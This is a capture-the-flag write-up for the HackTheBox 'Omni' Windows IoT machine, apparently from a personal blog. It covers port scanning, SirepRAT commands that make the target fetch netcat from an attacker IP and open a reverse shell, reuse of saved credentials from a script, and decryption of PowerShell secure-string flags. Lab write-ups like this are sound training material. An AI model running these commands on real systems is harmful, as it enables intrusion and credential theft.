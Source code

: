 ```yaml
---
layout: post
title:  "HackTheBox - Omni"
date:   2021-01-10 22:00:00 +1100
categories: [CTF, HTB]
tags: [ctf, htb, windows-iot]
---
```


![Image of info card](/images/htb/omni/info-card.png)


# Enumeration
---

## Initial Information

Based on the information provided by HackTheBox, Omni is rated as easy difficulty and is running an unknown Operating System.

## Editing hosts
A domain name can be assigned to the ip address localy in the `/etc/hosts` file to assist in refering to the machine.

```
sudo vim /etc/hosts
[ip] omni.htb
```

## Nmap scan

For scanning the system's TCP ports with nmap, an initial port scan is run which only focuses on finding open ports. The open ports detected are then used in a second scan where the -A flag is used to Enable OS detection, version detection, script scanning, and traceroute.

```
sudo nmap -A -T4 -Pn -oN nmap-scan-all -p$(sudo nmap -p- --min-rate=1000 -T4 omni.htb | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) omni.htb
```

![Image of nmap](/images/htb/omni/nmap.png)

Nmap reveals that port 135, 5985, 8080, 29817, 29819 and 21820 are open. 

Port 8080 shows itself as a upnp service however the version is Microsoft IIS httpd and reveals information about a Windows Device Portal.

Not knowing what this was I searched it up and the first result was regarding Window IoT.

The first search for Windows 10 device portal leads to: Windows Device Portal - Windows IoT &#124; Microsoft Docs (https://docs.microsoft.com/en-us/windows/iot-core/manage-your-device/deviceportal)

Looking at some of the other results, it seems that it's not limited to Windows IoT however I'm enclined to beleive it is running it since that would explain why HackTheBox didn't tell us the Operating System.


# Exploitation
---

## Discovery

Searching online the service

Mentions of Windows 10 IOT exploits:
https://www.zdnet.com/article/new-exploit-lets-attackers-take-control-of-windows-iot-core-devices/
https://www.bleepingcomputer.com/news/security/windows-10-iot-core-test-interface-lets-attackers-take-over-devices/


## Exploiting

The articles talk about an exploit using the tool SirepRAT https://github.com/SafeBreach-Labs/SirepRAT

Using the tool we can upload a copy of netcat then execute it to recieve a reverse shell.

Upload nc.exe
```
python SirepRAT.py omni.htb LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell Invoke-WebRequest 'http://10.10.14.145/nc64.exe' -OutFile 'C:\nc64.exe'" --v
```

![Image of sireprat upload](/images/htb/omni/sireprat-upload.png)

Run nc.exe
```
python SirepRAT.py omni.htb LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\nc64.exe 10.10.14.145 4444 -e cmd.exe" --v
```

![Image of sireprat exploit](/images/htb/omni/sireprat-run.png)

NOTE: Running nc.exe gives the error message:
> This version of C:\nc.exe is not compatible with the version of Windows you're running. Check your computer's system information and then contact the software publisher.

I downloaded nc64.exe from https://eternallybored.org/misc/netcat/ which works


# Post Enumeration

With the OS likely being Windows IOT, a lot of commands are missing such as whoami and

Commands such as whoami and systeminfo didn't exist and running them over the network encounters errors, same with winPEAS.

Using powershell we can view the OS version
```
PS C:\windows\system32> [System.Environment]::OSVersion.Version[System.Environment]::OSVersion.Version
```

![Image of os info](/images/htb/omni/osinfo1.png)


Alternative
```
PS U:\Users\app> $Properties = 'Caption', 'CSName', 'Version', 'BuildType', 'OSArchitecture'
$Properties = 'Caption', 'CSName', 'Version', 'BuildType', 'OSArchitecture'
PS U:\Users\app> Get-CimInstance Win32_OperatingSystem | Select-Object $Properties | Format-Table -AutoSize
Get-CimInstance Win32_OperatingSystem | Select-Object $Properties | Format-Table -AutoSize
```

![Image of os info](/images/htb/omni/osinfo2.png)

Looking at the files in `Program Files\WindowsPowershell\Modules\PackageManagement` show scripts with saved credentials in r.bat

![Image of rbat](/images/htb/omni/powershell-rbat.png)

We can try to log inot the web portal with those credentials, then running a command on the site we can try to get aa reverse shell.


# Privilege Escalation

Logging into the web portal with the credentials.

![Image of wdp auth](/images/htb/omni/wdp-auth.png)

![Image of wdp home](/images/htb/omni/wdp-home.png)

Under Processes theres a run command

From there we can run a netcat command to get a reverse shell as the logged on user.

Host a netcat listener
```
nc -nlvp 4444
```

Run netcat on Omni to connect back to us.
```
C:\nc64.exe 10.10.14.145 4444 -e cmd.exe
```

![Image of wdp user](/images/htb/omni/wdp-user.png)

Check user with $env:Username

Now that we know we are logged in as the user, we should be able to decrypt the flag.

Contents of user.txt is encrypted

```
$credential = Import-CliXml -Path U:\Users\app\user.txt

$credential.GetNetowrkCredential().Password
```

![Image of wdp flag](/images/htb/omni/user-flag.png)

It successfully decrypts and displays the user flag.

## Getting Root

To get root, follow the same steps as the user but log into the Windows Device Portal with the Admin credentials.

To decrypt the secure string you can use powershell code found on [hacktricks](https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters#secure-string-to-plaintext)

```
$credential = Import-CliXml -Path U:\Users\administrator\root.txt

$credential.GetNetowrkCredential().Password
```

![Image of root flag](/images/htb/omni/root-flag.png)

# Problems Encountered

Some of the problems I encountered were:

- Identifying Windows version/running commands
- The version of netcat to use on Omni as I normally use the version of netcat that comes with kali in the windows binaries folder.
- Getting SirepRAT to work

# Conclusion

This was certainly an interesting box. I found it harder than most other easy difficulty boxes because I hadn't touched the technologies involved (windows iot, SirepRAT, Windows Device Manager, windows encrypted passwords)